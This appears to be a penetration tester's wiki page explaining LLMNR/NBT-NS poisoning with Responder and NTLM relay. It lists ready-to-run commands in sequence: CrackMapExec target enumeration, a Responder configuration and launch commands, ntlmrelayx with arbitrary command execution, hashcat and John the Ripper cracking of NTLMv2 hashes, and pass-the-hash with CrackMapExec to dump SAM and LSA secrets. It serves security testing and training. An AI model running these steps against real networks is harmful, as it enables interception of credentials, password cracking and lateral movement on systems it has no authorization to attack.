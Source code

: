 ```yaml
---
title: LLMNR
description: 
published: true
date: 2021-01-30T19:59:44.061Z
tags: network, postex, llmnr
editor: markdown
dateCreated: 2021-01-29T15:29:14.015Z
---
```


# Man-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay

Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) are Microsoft Windows components that serve as alternate methods of host identification. LLMNR is based upon the Domain Name System (DNS) format and allows hosts on the same local link to perform name resolution for other hosts. NBT-NS identifies systems on a local network by their NetBIOS name.
(https://attack.mitre.org/software/S0174/) 

## Links 
Social Media
https://twitter.com/pythonresponder

Responder for Linux with Python
https://github.com/lgandx/Responder

Responder for Windows 
https://github.com/Kevin-Robertson/Inveigh

## Usage

## The Short: 

This allows an attacker to pretend to be another service and “claim” it as their own if the system can respond before the legitimate system can and in terms say :yes, that’s me send password” and collect over the wires passwords and password hashes and usernames. 

## The Long: 

Opening and operating this tool uses all the mDNS, LLMNR, NBT-NS and others in a way to collect possible NTLM (or other) credentials to be used to either crack or relay around a network that might be broadcasting the credentials around.
This allows you to also relay them with other tools. For this to best work you must find systems that do not have SMB signing enabled preferable V1 but v2 can work this is best done with crack map Exec (CME) in kali 
``` cme smb <CIDR> --gen-relay-list targets.txt ```

## MultiRelay: https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py


## NTLMRelayx : https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py
Usage: ``` ntlmrelayx.py -t $target ```
Usage advanced: ``` ntlmrelayx.py -tf targets.txt -c $insert commands here$ ``` 

                        .

## HashCat 
``` hashcat -a 0 -m 5600 hashes.txt rockyou.txt -o cracked.txt -O ``` 
So, what does this do? Let’s break it down.
-a is for the attack type. 0 is used to specify we’re performing a dictionary attack.
-m is used to specify what type of hashes we’re looking to crack. Hashcat supports cracking dozens of different hash-types, so you’ll typically want to refer to their help documentation to know exactly which number to use. In our case, NTLMv2 hashes are represented by 5600
hashes.txt is a positional parameter. Hashcat expects you to place the name of the file containing your hashes first, which is what we’re doing here.
rockyou.txt is another positional parameter. Hashcat expects the name of the file that you wish to use for your dictionary attack.
-o is used to specify an output file. This is where we’d like the cracked passwords to be stored. If you don’t specify this flag, cracked passwords will be stored in a file called hashcat. potfile, which can be found in the hashcat directory.
-O is used to optimize the attack for the hardware running in our system. You may not need to use this.

## Jhon the ripper 
Usage: ``` john hasht.txt --wordlist=/usr/share/wordlists/rockyou.txt ``` 

## LLMNR Starting 

To start you need to find or locate responder usually 

Edit responder.conf
```
[Responder Core]

; Servers to start
SQL = On
SMB = Off     #off
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off    #off
HTTPS = On
DNS = On
LDAP = On
```

Then run 
``` sudo python Responder.py -I <interface> -rdw ```
``` sudo python Responder.py -I eht0 -rdw ```
Traffic should start to pop up
 Then set up the relay tool
``` ntlmrelayx.py -t $host$ ```
``` ntlmrelayx.py -tf $targets.txt$ ```

By default, it dumps the local SAM file if it can and if it does you can gain access with CME 
``` crackmapexec smb 10.55.100.0/24 -u $USER$ -H $HASH5120d0cb0df939e3044c5843e37b2c5f$ --local –lsa ```


## More Info Links
https://attack.mitre.org/techniques/T1557/001/
https://www.blackhillsinfosec.com/an-smb-relay-race-how-to-exploit-llmnr-and-smb-message-signing-for-fun-and-profit/
https://medium.com/@subhammisra45/llmnr-poisoning-and-relay-5477949b7bef
https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html




